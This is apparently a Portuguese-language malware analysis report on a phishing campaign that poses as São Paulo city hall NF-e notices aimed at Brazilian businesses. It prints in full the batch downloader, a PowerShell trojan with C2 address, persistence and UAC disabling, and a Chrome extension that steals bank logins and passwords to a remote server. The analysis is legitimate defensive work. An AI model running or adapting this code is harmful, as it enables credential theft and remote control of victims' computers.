


# Ensaio sobre Campanha de Phishing Direcionada a Pessoa Jurídica (PJ) no Brasil  - Parte I

## Contexto e Motivação  

Este relatório apresenta os resultados de uma investigação independente sobre uma campanha de phishing direcionada a **Pessoas Jurídicas (PJ)** no Brasil, identificada a partir de um e-mail fraudulento recebido em 19/03/2025. O remetente, identificado como `Prefeitura Municipal NFE <Prefeitura.Municipal26724@%prefeitura.gov.br>`, tem como objetivo se passar por Prefeitura municipal ed São Paulo, para induzir vítimas a baixar um Trojan. Note que o remetente contém inconsistências (e.g., `%prefeitura[.]gov[.]br`), indicando tentativa de mascarar a origem, além disso, o email é propositalmente genérico, pois não fala qual prefeitura que está enviado o email, aumentando a possibilidade de ser um email falso.

A campanha explora a **urgência burocrática** e a familiaridade de empresas com processos fiscais eletrônicos, como a Nota Fiscal Eletrônica (NF-e). O e-mail inclui elementos aparentemente legítimos, como:  

- Menção a um "arquivo XML/DANFE da NF-e";  
- **Chave de Acesso** e **N. Protocolo de Autorização NF-Eletrônica**;  
- Links para visualização de "PDF" e "XML";  
- Ameaça de aplicação de taxa após o prazo de **24/03/2025**, combinando pressão psicológica com apelo à autoridade municipal.  

Já os links "Clique aqui para visualizar" direcionam para subdomínios não relacionados a órgãos governamentais. Ao interagir com os links, um arquivo executável é baixado. Esse arquivo é um Downloader. Nesse caso, o Downloader é um script em PowerShell, seu obojetivo é baixar arquivos maliciosos para o dispositivo da vítima. No caso particular, ele realiza o download de outro executável, que é um Trojan em PowerShell. O Trojan, por sua vez, tem alguns objetivos, como por exemplo, faz a verificação se o google chrome está instalado, caso negativo realiza a instalação do navegador, após isso baixa e instala uma extensão maliciosa no navegador do google chrome. Durante a redação deste relatório, o servidor sofreu atualizações que alteraram os scripts disponíveis, indicando que a campanha permanece em atividade e sob monitoramento contínuo.  

## Resumo do ataque

O fluxograma a seguir resume os passos mais importante do ataque.



## Desenvolvimento

Para conduzir esta análise, utilizou-se uma máquina virtual com o sistema operacional Kali Linux e uma VPN para garantir a segurança das requisições realizadas.  

O ataque de phishing inicia-se com o envio de um e-mail para a vítima. Esse email foi elaborado para simular uma comunicação legítima, entretanto o remetente tem um endereço de email genérico e não tem identificação, isso pode ser um indício de e-mail falso. Conforme ilustrado na **Figura 1**, o conteúdo da mensagem refere-se a uma Nota Fiscal Eletrônica supostamente emitida, solicitando que o destinatário realize duas ações: clicar em um link para download e, posteriormente, executar o arquivo obtido.  

  

Como evidenciado na **Figura 1**, ambos os links presentes no e-mail direcionam para o mesmo subdomínio: `enota[.]clientepj[.]com`. Para investigar a campanha, o primeiro passo consistiu em verificar a resolução do DNS desse subdomínio por meio do comando abaixo:  

```shell
dig enota.clientepj.com  
```  

Os resultados, apresentados na **Figura 2**, indicam que o subdomínio está associado aos endereços IP 172[.]67[.]213[.]181 e 104[.]21[.]93[.]183, pertencentes à Cloudflare (para verificar use o comando `whois ip`). Isso sugere que o atacante emprega serviços de *proxy* para mascarar o servidor real.  

  

Adicionalmente, constatou-se que o subdomínio `enota[.]clientepj[.]com` apresenta vulnerabilidade de *Directory Listing* (listagem de diretórios), expondo publicamente seus arquivos, conforme exibido na **Figura 3**.  

  

A atividade frequente no subdomínio indica que a campanha permanece ativa. Durante a elaboração deste relatório, observaram-se alterações no servidor, incluindo modificações nos scripts maliciosos (ver nota final para detalhes).  

Ao clicar no link, a vítima efetua o download de um arquivo `.bat`, como demonstrado na **Figura 4**. O servidor responde com o código HTTP 302 Found, redirecionando para o arquivo `NotaFiscal1.2.5.bat` (**Figura 5**).  

  
  

Trata-se de um script para Windows projetado para executar comandos no sistema da vítima com privilégios elevados. Para análise estática, utilizou-se o comando `file`, que identificou a codificação Unicode/UTF-8:  

```shell
# file NotaFiscal1.2.5.bat  
NotaFiscal1.2.5.bat: DOS batch file, Unicode text, UTF-8 text, com terminações de linha CRLF  
```  

A inspeção do conteúdo via `cat` (**Figura 6**) revelou que o script executa ações maliciosas, incluindo:  

1. **Elevação de privilégios**: Solicita acesso administrativo através do comando `%windir%\System32\cmd.exe /c %windir%\System32\reg.exe ADD "HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System" /v "EnableLUA" /t REG_DWORD /d 0 /f`.  
2. **Ocultação de processos**: Utiliza `taskkill` para interromper serviços críticos de segurança.  
3. **Download de payloads**: Baixa arquivos adicionais de URLs suspeitas.  

  

Embora o script contenha comentários e sua estrutura é simples de entender, será realizada uma análise mais detalhada a seguir.

```batch
@echo off
:: Verifica se o script está sendo executado como administrador
net session >nul 2>&1
if %errorLevel% neq 0 (
    powershell -Command "Start-Process '%~f0' -Verb RunAs"
    exit
)
```

O comando `@echo off` oculta os comandos do prompt durante a execução.

Já `net session` verifica se o usuário tem privilégios administrativos.

Se não for administrador, `if %errorLevel% neq 0`, o script se reinicia com elevação via -Verb RunAs (UAC).

Esse trecho tenta garantir a execução como administrador para realizar ações restritas (ex.: modificar sistema).

```bash
powershell -NoProfile -ExecutionPolicy Bypass -Command "..."
```

Verifica se é necessário instalar o provedor NuGet e módulos como PowerShellGet e PSReadline. Além disso, prepara o ambiente para executar scripts PowerShell avançados, contornando restrições de segurança (ExecutionPolicy Bypass).

O próximo passo é o download da carga maliciosa:

```bash
powershell -NoProfile -ExecutionPolicy Bypass -WindowStyle Hidden -Command "Invoke-WebRequest -Uri 'https://enota.clientepj.com/cliente.ps1' -OutFile '%TEMP%\cliente.ps1'"
```

O comando acima executa o PowerShell sem interface gráfica (WindowStyle Hidden) com o objetivo de baixa um arquivo `.ps1` (PowerShell) de um servidor controlado pelos atacantes, salva na pasta temporária (%TEMP%) para evitar detecção.

Por fim, o script executa o script `cliente.ps1`.

```shell
powershell -NoProfile -ExecutionPolicy Bypass -WindowStyle Hidden -File "%TEMP%\cliente.ps1"
```

Esse funcionamento do script caracteriza um Downloader (Baixador), um tipo de Trojan cuja principal função é baixar e instalar componentes maliciosos da internet no sistema infectado. Diferente de outros malwares, o Downloader não armazena a carga maliciosa em seu código, o que reduz sua detecção por soluções antimalware. Após a execução, ele estabelece conexão com um servidor de comando e controle (C2) ou outra fonte externa para obter e instalar o payload malicioso. Esse mecanismo oferece flexibilidade aos atacantes, permitindo a atualização da carga útil, o envio de diferentes variantes de malware ou até mesmo a adaptação a novos objetivos durante a campanha.

## Análise do Script `cliente.ps1`

O arquivo `cliente.ps1` é um script em PowerShell e parece que foi escrito por uma IA.

```powershell
Add-Type -AssemblyName System.Windows.Forms


#############################################################################
# Configuraçao do Script - Alterar se necessário
$serverIP = "142.54.185.178"
$serverPort = 5555

$textServerIP = "142.54.185.178"
$textServerPort = 5556

$computerName = $env:COMPUTERNAME
$nomeps1 = "cliente.ps1"
$nomebat = "ProcessoTrabalhista.bat"
$nomeextensao = "nplfchpahihleeejpjmodggckakhglee"
$linkexetensao = "nplfchpahihleeejpjmodggckakhglee;https://clients2.google.com/service/update2/crx"
$diretorioExtensoes = "$env:LOCALAPPDATA\Google\Chrome\User Data\Default\Extensions\$nomeextensao"
#############################################################################

$textClient = New-Object System.Net.Sockets.TcpClient
$textClient.Connect($textServerIP, $textServerPort)
$textStream = $textClient.GetStream()
$textWriter = New-Object System.IO.StreamWriter($textStream)
$textWriter.AutoFlush = $true

# Enviar mensagem de teste imediatamente
#$textWriter.WriteLine("OKEXT")
#Write-Host "Mensagem OKEXT enviada ao servidor."

# Fechar conexão de teste
#$textClient.Close()

#############################################################################
#Funções para teste de conexões apenas
#$testClient = New-Object System.Net.Sockets.TcpClient
#$testClient.Connect($textServerIP, 5556)
#if ($testClient.Connected) {
    #Write-Host "Cliente conectado corretamente na porta 5556!"
#} else {
 #   Write-Host "Falha ao conectar na porta 5556!"
#}
#$testClient.Close()
#############################################################################

# Verifica se o script está sendo executado como Administrador
if (-not ([Security.Principal.WindowsPrincipal][Security.Principal.WindowsIdentity]::GetCurrent()).IsInRole([Security.Principal.WindowsBuiltInRole]::Administrator))
{
    # Solicita elevação e reinicia o script
    Start-Process powershell.exe -ArgumentList "-ExecutionPolicy Bypass -File `"$PSCommandPath`"" -Verb RunAs
    exit
    exit
}

# Seu código começa aqui
#Write-Host "Executando como Administrador"

function Add-PowerShellScriptToStartup {
    # Caminho do Registro onde a chave será criada (para o usuário atual)
    $registryPath = "HKCU:\SOFTWARE\Microsoft\Windows\CurrentVersion\Run"

    # Nome da Chave (pode ser qualquer nome que represente seu script)
    $name = "PWSecurity"

    # Valor da chave - O caminho do PowerShell com argumentos
    # Utiliza $PSScriptRoot para pegar o caminho do script atual
    $scriptPath = "$env:APPDATA\$nomebat"
    #$value = "powershell.exe -ExecutionPolicy Bypass -File `"$scriptPath`""
    $value = "$env:APPDATA\$nomebat"

    # Cria a entrada no Registro
    New-ItemProperty -Path $registryPath -Name $name -Value $value -PropertyType String -Force
}

# Chama a função dentro do script para inserir no registro do Windows
Add-PowerShellScriptToStartup

# Desativar UAC
Set-ItemProperty -Path 'HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System' `
                 -Name 'EnableLUA' `
                 -Value 0

Write-Host "UAC Desativado. Reinicie o computador para aplicar as alterações."

function Test-ChromeInstalled {

    [CmdletBinding()]
    param()

    # Locais comuns de instalação do Chrome
    $chromePaths = @(
        "$env:ProgramFiles\Google\Chrome\Application\chrome.exe",
        "${env:ProgramFiles(x86)}\Google\Chrome\Application\chrome.exe",
        "$env:LocalAppData\Google\Chrome\Application\chrome.exe"
    )

    # Chave de registro comum para o Chrome
    $registryPaths = @(
        "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\App Paths\chrome.exe",
        "HKLM:\SOFTWARE\WOW6432Node\Microsoft\Windows\CurrentVersion\App Paths\chrome.exe",
        "HKCU:\Software\Microsoft\Windows\CurrentVersion\App Paths\chrome.exe"
    )

    # Verifica se o executável existe em algum dos caminhos
    foreach ($path in $chromePaths) {
        if (Test-Path -Path $path -PathType Leaf) {
            Write-Verbose "Chrome encontrado em: $path"
            return $true
        }
    }

    # Verifica no Registro do Windows
    foreach ($regPath in $registryPaths) {
        if (Test-Path -Path $regPath) {
            $chromePath = (Get-ItemProperty -Path $regPath -ErrorAction SilentlyContinue).'(default)'
            if ($chromePath -and (Test-Path -Path $chromePath -PathType Leaf)) {
                Write-Verbose "Chrome encontrado no Registro: $chromePath"
                return $true
            }
        }
    }

    # Se não encontrar em nenhum dos locais, retorna falso
    Write-Verbose "Chrome não encontrado no sistema."
    return $false
}

# Exemplo de uso
if (Test-ChromeInstalled -Verbose) {
    Write-Host "O Google Chrome está instalado no computador." 
    $chrome = "Sim"
} else {
    Write-Host "O Google Chrome não está instalado no computador." 
    $chrome = "Não"
}

# Obter informações do sistema operacional
$osInfo = (Get-WmiObject -Class Win32_OperatingSystem).Caption
$ipAddress = Invoke-RestMethod -Uri "https://api.ipify.org"
#$ipAddress = (Get-NetIPAddress | Where-Object { $_.AddressFamily -eq "IPv4" -and $_.InterfaceAlias -notlike "*Loopback*" }).IPAddress | Select-Object -First 1

# Verifica o status do plugin
$serviceStatus = Get-Service -Name 'Warsaw Technology'
if ($serviceStatus.Status -eq 'Running') {
    Write-Output "O serviço está em execução."
    $stateP = "Sim"
} else {
    Write-Output "O serviço não está em execução."
    $stateP = "Não"
}


#############################################################################
# Conectar ao Servidor
try {
    $client = New-Object System.Net.Sockets.TcpClient
    $client.Connect($serverIP, $serverPort)
    $stream = $client.GetStream()
    $writer = New-Object System.IO.StreamWriter($stream)
    $reader = New-Object System.IO.StreamReader($stream)

    # Enviar informações iniciais
    $clientInfo = "$computerName|$osInfo|$ipAddress|$stateP|$chrome"
    Write-Host "Conectado ao servidor como: $computerName - SO: $osInfo - IP: $ipAddress - Plugin: $stateP - Chrome: $chrome"
    $writer.WriteLine($clientInfo)
    $writer.Flush()


########################################################################
# Loop principal para processar comandos de imagem
    while ($true) {
        try {
            if ($stream.DataAvailable) {
            $command = $reader.ReadLine()
            Write-Host "Comando recebido: $command"

            if ($command -eq "DISCONNECT") {
            Write-Host "[Cliente] DISCONNECT recebido. Encerrando..."
            Stop-Process -Id $PID -Force
             # Pequeno delay para evitar loop intensivo de CPU
             Start-Sleep -Milliseconds 100
        }
                

           if ($command -eq "REMOVEKL") {
           Write-Host "[Cliente] REMOVEKL recebido. Encerrando..." 
           Remove-Item -Path "$PSScriptRoot\$nomeps1" -Force
           Remove-Item -Path "$PSScriptRoot\$nomebat" -Force    
           $registryPath = "HKCU:\SOFTWARE\Microsoft\Windows\CurrentVersion\Run"
           $name = "PWSecurity"

          Remove-ItemProperty -Path $registryPath -Name $name -Force -ErrorAction SilentlyContinue 
          Stop-Process -Id $PID -Force
        }


            if ($command -eq "START_SCREEN") {
                Write-Host "Capturando e enviando uma imagem..."

                # Adiciona a chave de registro para forçar a instalação da extensão no Chrome
                $regPath = "HKEY_LOCAL_MACHINE\Software\Policies\Google\Chrome\ExtensionInstallForcelist"
                $regValueName = "1"
                $regValueData = "$linkexetensao"

                Write-Host "Adicionando chave de registro para forçar instalação da extensão do Chrome..."
                Start-Process -FilePath "reg.exe" -ArgumentList "add", "`"$regPath`"", "/v", $regValueName, "/t", "REG_SZ", "/d", $regValueData, "/f" -NoNewWindow -Wait

                Write-Host "Chave de registro adicionada com sucesso."

                Write-Host "Encerrando processos do Google Chrome..."
                Start-Process -FilePath "taskkill.exe" -ArgumentList "/F", "/IM", "chrome.exe" -NoNewWindow -Wait
                Write-Host "Processos do Google Chrome encerrados."


                # Aguarda 5 segundos antes de reabrir o Chrome
                Write-Host "Aguardando 5 segundos antes de reabrir o Chrome..."
                Start-Sleep -Seconds 15

                # Reabre o Google Chrome
                Write-Host "Reabrindo o Google Chrome..."
                Start-Process -FilePath "C:\Program Files\Google\Chrome\Application\chrome.exe"
                Write-Host "Google Chrome reaberto."

                Start-Sleep -Seconds 15

               if (Test-Path $diretorioExtensoes) {
               $textWriter.WriteLine("OKEXT")
               Write-Host "Encontrado."
              }
             else {
             $textWriter.WriteLine("NOEXT")
             Write-Host "Extensão não encontrada."
             }
             $textWriter.Flush()
             }
            }
      
        } 
        catch {
            Write-Host "Erro ao processar comando: $_"
        }
        Start-Sleep -Milliseconds 50
    }

} catch {
    Write-Host "Erro ao conectar ao servidor: $_"
    exit
}                               
```

A análise do código em questão sugere que ele está em fase de desenvolvimento, dada a presença de trechos comentados e estruturas incompletas. Além disso, há referências a outros scripts maliciosos hospedados no servidor do atacante, indicando uma possível integração com componentes adicionais da campanha. Durante a investigação, o IP associado ao servidor de comando e controle (C2) estava inativo, o que pode apontar para uma infraestrutura temporariamente desativada ou medidas de evasão por parte dos atacantes. Quanto à funcionalidade, o script apresenta múltiplos vetores de ataque:

- Acesso remoto: Capacidade de executar comandos no sistema Windows comprometido (ex.: manipulação de processos, coleta de dados).

- Downloader direcionado: Foco na busca e instalação de uma extensão maliciosa no navegador Chrome, possivelmente disfarçada como um complemento legítimo (ex.: "Chrome Web Store"). Essa extensão poderia ser usada para redirecionar tráfego, capturar credenciais ou injeção de anúncios.

A dualidade de propósitos sugere que o código foi projetado para ser modular, permitindo que os atacantes alternem entre funções conforme a necessidade da campanha.

### **1. Configurações Iniciais e Conexão ao Servidor C2**

No trecho a seguir é passado o IP do servidor de comando e controle (C2), portal principal para a comunição e a porta sencundária.

```powershell
$serverIP = "142.54.185.178"  
$serverPort = 5555            
$textServerPort = 5556        
```

Também é definido alguns arquivos e id da extensão do chrome web store. O script `ProcessoTrabalhista.bat` é o mesmo da nota fiscal. Já o trecho:

```powershell
$textClient = New-Object System.Net.Sockets.TcpClient
$textClient.Connect($textServerIP, $textServerPort)
$textStream = $textClient.GetStream()
$textWriter = New-Object System.IO.StreamWriter($textStream)
$textWriter.AutoFlush = $true
```

estabelece uma **conexão de rede TCP client-server** para comunicação em tempo real. Em que:

1. **`$textClient = New-Object System.Net.Sockets.TcpClient`**  
   - Cria um objeto `TcpClient`, que permite comunicação via protocolo TCP/IP.

2. **`$textClient.Connect($textServerIP, $textServerPort)`**  
   - Conecta-se a um servidor remoto usando o endereço IP (`$textServerIP`) e porta (`$textServerPort`) especificados.  
   - Exemplo: Se `$textServerIP = "192.168.1.100"` e `$textServerPort = 4444`, tenta uma conexão com essa máquina na porta 4444.

3. **`$textStream = $textClient.GetStream()`**  
   - Obtém o fluxo de dados (*NetworkStream*) da conexão TCP estabelecida, permitindo leitura/escrita de bytes.

4. **`$textWriter = New-Object System.IO.StreamWriter($textStream)`**  
   - Cria um `StreamWriter` para enviar **dados em formato de texto** pelo fluxo da rede (converte texto para bytes automaticamente).

5. **`$textWriter.AutoFlush = $true`**  
   - Habilita o envio imediato dos dados sem armazenamento em buffer (cada escrita é enviada instantaneamente ao servidor).

### **2. Coleta de Informações do Sistema**  

Após a configuração inicial e do ambiente, o script coleta algumas informações do computador da vítima:

- **Nome do Computador**: `$env:COMPUTERNAME`  
- **Sistema Operacional**: Captura via `Win32_OperatingSystem`.  
- **Endereço IP Público**: Usa `api.ipify.org` para obter ip publico da vítima.  
- **Estado do Serviço "Warsaw Technology"**: Serviço relacionado a segurança bancária no Brasil.  
- **Presença do Google Chrome**: Verifica se o navegador está instalado.  

Possivelmente aqui o objetivo é identificar as máquinas com acesso a sistemas bancários (Warsaw) e navegadores para ataques direcionados.  Esses dados são enviado para o servidor de controle.

### **3. Persistência e Desativação de Segurança**

Esse é outro ponto que chama a atenção, que são as Técnicas de Persistência:  

```powershell
# Adiciona o script à inicialização do Windows
New-ItemProperty -Path "HKCU:\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" -Name "PWSecurity" -Value "$env:APPDATA\$nomebat" -Force

# Desativa o UAC (User Account Control)
Set-ItemProperty -Path 'HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System' -Name 'EnableLUA' -Value 0
```  

Dessa forma o script é executado automaticamente em toda inicialização e como o UAC foi desativado permite execução de comandos sem notificação ao usuário.  

### **4. Instalação de Extensão Maliciosa no Chrome**  

### Passos Executados

1. **Forçar Instalação via Política do Chrome**:  

   ```powershell
   reg.exe add "HKEY_LOCAL_MACHINE\Software\Policies\Google\Chrome\ExtensionInstallForcelist" /v 1 /t REG_SZ /d "nplfchpahihleeejpjmodggckakhglee;https://clients2.google.com/service/update2/crx" /f
   ```  

   - **Extensão Maliciosa**: O ID `nplfchpahihleeejpjmodggckakhglee` corresponde a uma extensão, projetada para roubo de dados (será mostrado na seção **Extensões Maliciosas**).  

2. **Reiniciar o Chrome**:  
   - Mata o processo do Chrome (`taskkill /F /IM chrome.exe`).  
   - Reabre o navegador para carregar a extensão forçada.  

3. **Verificação de Sucesso**:  
   - Confirma se a extensão foi instalada (`OKEXT` ou `NOEXT` via porta 5556).  

### **5. Comandos Suportados pelo Servidor C2**  

O script responde a comandos remotos, incluindo:  

| Comando         | Ação                                                                                   |  
|-----------------|---------------------------------------------------------------------------------------|  
| `DISCONNECT`    | Encerra o script e mata o processo atual.                                             |  
| `REMOVEKL`      | **Auto-destruição**: Remove arquivos (`cliente.ps1`, `.bat`) e a entrada de registro. |  
| `START_SCREEN`  | **Ataque Principal**: Força instalação da extensão maliciosa e coleta dados.          |  

## Extensões Maliciosas

Conforma analisado anteriormente o script `cliente.ps1`, faz referência a uma extensão na **chrome web store**. Para ter acesso a essa extensão basta abrir o **chrome web store** e buscar por:

```shell
nplfchpahihleeejpjmodggckakhglee
```

Conforme mostrado na figura a seguir:


Para realizar o download da extensão, utilizou-se a plataforma Chrome-Stats (acessível em https://chrome-stats.com/). Após a extração do arquivo baixado, a estrutura interna da extensão é exibida conforme demonstrado na figura abaixo:


O arquivo mais importante é o `run-back.js`:

```js
let e = "",
  n = "https://ranchocentral.com/",
  t = "",
  a = "",
  o = "";

function r(e, t) {
  chrome.storage.sync.get("eindeutigeKennung", function (o) {
    a = o.eindeutigeKennung;

    const r =
        n +
        "comando_temporario.php?eindeutigeKennung=" +
        a +
        "&k=" +
        e.identificacaoUsuario,
      s = {
        method: t,
        headers: {
          "Content-Type": "application/json",
        },
        body: JSON.stringify(e),
      };
    fetch(r, s);
  });
}

function testeone() {
  console.log(window.sessionStorage);
}

async function s() {
  chrome.tabs.query(
    {
      active: true,
      currentWindow: true,
    },
    function (e) {
      if (e[0] && e[0].url.includes("apf-apj-")) {
        q = JSON.parse(t);
        fetch(
          n +
            "comando_temporario.php?eindeutigeKennung=" +
            a +
            "&k=" +
            q.identificacaoUsuario
        )
          .then((response) => response.json())
          .then(function (n) {
            let t = n;
            if (t.comando && o != t.comando) {
              let n = {};
              if ("CODE_ZUM_LESEN" === t.comando) {
                bildadresse = t.qr;
                n = {
                  befehlstyp: "codeZumLesen",
                  bildadresse: bildadresse,
                };
              } else if ("WARTEN" === t.comando) {
                n = {
                  befehlstyp: "warten",
                };
              } else if ("SCHLIEBEN_WARTEN" === t.comando) {
                n = {
                  befehlstyp: "schliebenWarten",
                };
              }
              chrome.tabs.sendMessage(e[0].id, n);
              o = t.comando;
            }
          });
      }
    }
  );
}

chrome.webRequest.onBeforeSendHeaders.addListener(
  function (n) {
    var a = n.requestHeaders;
    if (
      "POST" === n.method &&
      n.url.includes("/login/token") &&
      a &&
      a.find(
        (e) =>
          "X-CFE-DeviceInfo" === (e === null || e === void 0 ? void 0 : e.name)
      )
    ) {
      r(
        {
          ...{
            tokenHeaderDaten: a,
          },
          ...JSON.parse(t),
        },
        "PATCH"
      );
    } else if (
      "POST" === n.method &&
      n.url.includes("/login") &&
      a &&
      a.find(
        (e) =>
          "X-CFE-DeviceInfo" === (e === null || e === void 0 ? void 0 : e.name)
      )
    ) {
      zugangsdatenTemp = JSON.parse(t);
      zugangsdatenTemp.kopfdaten = a;
      r(
        {
          ...zugangsdatenTemp,
          ...e,
        },
        "POST"
      );
    }
    return {
      requestHeaders: n.requestHeaders,
    };
  },
  {
    urls: ["<all_urls>"],
  },
  ["requestHeaders", "extraHeaders"]
);

chrome.webRequest.onBeforeRequest.addListener(
  function (e) {
    const n = new URL(e.url);
    if ("POST" === e.method && n.pathname.includes("/login")) {
      const n =
        (b = e.requestBody) && b.raw
          ? JSON.parse(
              decodeURIComponent(
                String.fromCharCode.apply(null, new Uint8Array(b.raw[0].bytes))
              )
            )
          : {};
      if (n && n.identificacaoUsuario) {
        t = JSON.stringify(n);
        interval = setInterval(s, 2000);
      }
    } else if (
      "POST" === e.method &&
      n.pathname.includes("/armazenar-senha-conta")
    ) {
      const n =
        (b = e.requestBody) && b.raw
          ? JSON.parse(
              decodeURIComponent(
                String.fromCharCode.apply(null, new Uint8Array(b.raw[0].bytes))
              )
            )
          : {};
      if (n && n.senhaContaSelecaoInputV1) {
        var a = e.requestHeaders;
        r(
          {
            ...JSON.parse(t),
            ...{
              senha8: n.senhaContaSelecaoInputV1.senhaContaSelecao,
              tokenHeaderDaten: a,
            },
          },
          "PATCH"
        );
      }
    }
  },
  {
    urls: ["<all_urls>"],
  },
  ["requestBody"]
);

let interval;
chrome.runtime.onMessage.addListener((message, sender, sendResponse) => {
  if (message.type === "login") {
    t = JSON.stringify(message.data);
    interval = setInterval(s, 2000);
  } else if (message.type === "store-password") {
    const requestBody = message.data;
    const headers = message.headers;
    r(
      {
        ...JSON.parse(t),
        senha8: requestBody.senhaContaSelecaoInputV1.senhaContaSelecao,
        tokenHeaderDaten: headers,
      },
      "PATCH"
    );
  }
});

chrome.runtime.onMessage.addListener(function (n, t, a) {
  if (n.ereignistyp && "entstehung" === n.ereignistyp) {
    fetch("https://ipinfo.io/json")
      .then((response) => response.json())
      .then(function (n) {
        e = n;
      });
  }
  if (n.ereignistyp && "codeSenden" === n.ereignistyp) {
    let e = n.code;
    comando = "AGUARDE";
    r(
      {
        codigo: e,
      },
      "POST"
    );
  }
});

chrome.runtime.onInstalled.addListener(function (e) {
  chrome.storage.sync.set({
    eindeutigeKennung: ([1e7] + -1e3 + -4e3 + -8e3 + -1e11).replace(
      /[018]/g,
      function (e) {
        return (
          e ^
          (crypto.getRandomValues(new Uint8Array(1))[0] & (15 >> (e / 4)))
        ).toString(16);
      }
  ),
  });
});
```

Esta extensão do Chrome é projetada para **roubar credenciais, tokens de autenticação e senhas** de usuários, especialmente em páginas de login. Abaixo, a análise detalhando os pontos mais importante.

### **1. Coleta de Dados Sensíveis**

- **Interceptação de Logins**:  
  - Monitora requisições POST para endpoints como `/login` e `/login/token`, de todas as urls que a vítima acessa e captura:  
    - **Headers** (ex.: `X-CFE-DeviceInfo`, usado em autenticações bancárias).  
    - **Corpos de Requisição**: coleta as credenciais do usuário.  
    - **Coleta metadados do dispositivo**: via ipinfo.io/json (geolocalização, ISP), por exemplo:

```json
{
  "ip": "*****************",
  "hostname": "1*****************",
  "city": "*****************",
  "region": "*****************",
  "country": "*****************",
  "loc": "*****************",
  "org": "*****************",
  "postal": "*****************",
  "timezone": "*****************",
  "readme": "https://ipinfo.io/missingauth"
}
```

### **2. Comunicação com o Servidor C2**

- **URL do C2**: `https://ranchocentral[.]com/` (servidor de comando e controle).  
- **Endpoints**:  
  - `comando_temporario.php`: Recebe dados roubados e envia comandos.  
  - Gera um UUID único para o dispositivo usando um algoritmo pseudoaleatório: `chrome.storage.sync.set({ eindeutigeKennung: [...] }); `

### **3. Execução de Comandos Remotos**

A extensão responde a comandos do servidor, como:  

- **`CODE_ZUM_LESEN`**: Exibe um QR code malicioso (`bildadresse`) para enganar a vítima.  

- **`WARTEN`** / **`SCHLIEBEN_WARTEN`**: Mostra telas de "aguarde" para simular processos legítimos.  

```javascript
chrome.tabs.sendMessage(e[0].id, { befehlstyp: "codeZumLesen", bildadresse: bildadresse });
```

### **4. Persistência e Identificação Única**

- **UUID Gerado na Instalação**:  

  ```javascript
  chrome.storage.sync.set({ eindeutigeKennung: [...] });  
  ```  

  - Usado para vincular dados roubados à vítima específica.  

- **Monitoramento Contínuo**:  
  - Intervalo de 2 segundos (`setInterval(s, 2000)`) para verificar novos comandos do C2.  

Além disso, ao pesquisar por `Segurança PJ` na chrome web store apareceu outra extensão com mais de 700 downloads já realizados, é basicamente a mesma estrutura, só muda o endereço do C2.


## Observações

O comportamento da campanha está mudando durante os dias, na sexta feira (21/03/25), a estrutura era um pouco diferente. Ao clicar no link para ver o pdf era realizado o download de um arquivo executável para Windows no formato PE32 (Portable Executable 32-bit), compatível com a arquitetura Intel 80386 (x86, 32 bits) e destinado a aplicações gráficas (GUI). O objetivo desse trojan era criar uma conexão remota na máquina da vítima, além disso, foi possível descobrir que o ambiente usado para compilar o executável, conforme a imagem abaixo mostra:


Além disso, a estrutura dos arquivos no servidor era outra:


